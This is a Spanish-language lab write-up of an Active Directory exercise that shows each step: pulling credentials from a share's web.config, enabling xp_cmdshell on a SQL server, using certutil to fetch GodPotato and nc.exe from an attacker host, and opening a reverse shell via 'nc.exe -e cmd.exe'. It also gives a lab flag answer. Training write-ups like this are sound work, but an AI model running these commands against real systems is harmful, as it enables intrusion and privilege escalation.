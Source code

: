![[Department-Shares.png]]

>Al confirmar que tenemos Permiso de Lectura podemos seguir listando y conseguir el archivo.

![[web.condifFile.png]]

>Con el siguiente comando podemos descargar el archivo:

```shell
smbmap -u BR086 -p Welcome1 -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares' -A 'web.config'
```

>Para luego poder ver su contenido y conseguir las credenciales **`netdb:D@ta_bAse_adm1n!`**.

- **Envíe el contenido del archivo flag.txt en el Escritorio del administrador en el host SQL01.**
	- [x] **`s3imp3rs0nate_cl@ssic`**

>Con las credenciales que obtuvimos podemos intentar conectarnos al servidor **SQL01** con **mssqlclinet.py**, con las credenciales que obtuvimos. Procedemos a utilizar **`enable_xp_cmdshell`** para activar la ejecución de comandos. Luego con el comando **xp_cmdshell whoami /priv**, podemos verificar los privilegios de nuestra cuenta con lo que vemos lo siguiente:

![[seImpresonatePriv-Enable.png]]

>Al ver que contamos con el privilegio **SeImpersonatePrivilege**, hay muchas cosas que podemos hacer, de hecho si buscamos en Google. Vemos que podemos usar esto para derivar al uso de herramientas como **RoguePotato** o **PrintSpooffer** para escalar privilegios en la máquina, **SQL01**, por lo que podemos proceder de distintas formas, en nuestro caso utilizamos [**GODPOTATO**](https://github.com/BeichenDream/GodPotato).

>Descargamos **nc.exe** y **GodPotato-NET4.exe**, en nuestra máquina de atacante y aprovechando **xp_cmdshell** y **certutil**, descargaremos las herramientas la cual estaremos compartiendo en un servidor **HTTP** simple con python.

![[Simple-Python-Server.png]]

>Luego creamos un directorio **\temp**, donde podamos trabajar de forma cómoda, y dejar ahí las herramientas que descargaremos en **SQL01**. Luego con el siguiente comando:

```
xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240/GodPotato-NET4.exe C:\temp\GodPotato.exe"
xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240/nc.exe C:\temp\nc.exe"
```

>Descargamos las herramientas en el escritorio creado y confirmamos las descargas.

![[Herramientas-Descargadas.png]]

>Luego procedemos a la ejecución del comando para obtener una reverse shell con **GodPotato y nc.exe**, procedemos a iniciar una escucha con netcat en nuestra máquina de atacante, **`sudo nc -nlvp 443`**. Y ejecutando el siguiente comando:

```shell
xp_cmdshell C:\temp\GodPotato.exe -cmd "C:\temp\nc.exe -e cmd.exe 172.16.7.240 443"
```
